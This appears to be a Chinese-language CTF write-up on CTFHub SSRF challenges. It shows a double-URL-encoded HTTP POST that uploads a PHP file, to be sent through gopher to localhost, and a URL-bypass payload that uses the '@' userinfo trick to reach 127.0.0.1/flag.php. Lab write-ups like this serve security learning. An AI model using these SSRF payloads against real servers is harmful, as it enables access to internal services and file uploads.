 <img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182734001.png" alt="image-20220610182734001" style="zoom:80%;" />

上传后抓包

![image-20220610193944394](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610193944394.png)

进行两次url编码，得到：

```
POST%2520/flag.php%2520HTTP/1.1%250D%250AHost:%2520challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800%250D%250AUser-Agent:%2520Mozilla/5.0%2520(Windows%2520NT%252010.0;%2520Win64;%2520x64;%2520rv:101.0)%2520Gecko/20100101%2520Firefox/101.0%250D%250AAccept:%2520text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8%250D%250AAccept-Language:%2520zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2%250D%250AAccept-Encoding:%2520gzip,%2520deflate%250D%250AContent-Type:%2520multipart/form-data;%2520boundary=---------------------------9089388617334566272340632599%250D%250AContent-Length:%2520354%250D%250AOrigin:%2520http://challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800%250D%250AConnection:%2520close%250D%250AReferer:%2520http://challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php%250D%250AUpgrade-Insecure-Requests:%25201%250D%250A%250D%250A-----------------------------9089388617334566272340632599%250D%250AContent-Disposition:%2520form-data;%2520name=%2522file%2522;%2520filename=%25221.php%2522%250D%250AContent-Type:%2520application/octet-stream%250D%250A%250D%250Awasda%250D%250A-----------------------------9089388617334566272340632599%250D%250AContent-Disposition:%2520form-data;%2520name=%2522submit%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%25C3%25A6%25C2%259F%25C2%25A5%25C3%25A8%25C2%25AF%25C2%25A2%250D%250A-----------------------------9089388617334566272340632599--%250D%250A
```

抓一个最初的

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610185611152.png" alt="image-20220610185611152" style="zoom:80%;" />

利用gopher去发送请求

![image-20220610195259093](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610195259093.png)

### **FastCGI协议

```undefined
/?url=127.0.0.1/flag.php
```

### **URL Bypass

给出提示

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220611235845835.png" alt="image-20220611235845835" style="zoom:80%;" />

url参数的值中必须包含有`http://notfound.ctfhub.com`
可以采用@，也就是 HTTP 基本身份认证绕过
HTTP 基本身份认证允许 Web 浏览器或其他客户端程序在请求时提供用户名和口令形式的身份凭证的一种登录验证方式。
也就是：`http://www.xxx.com@www.yyy.com形式`

构造题目所需 Payload：

```
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```
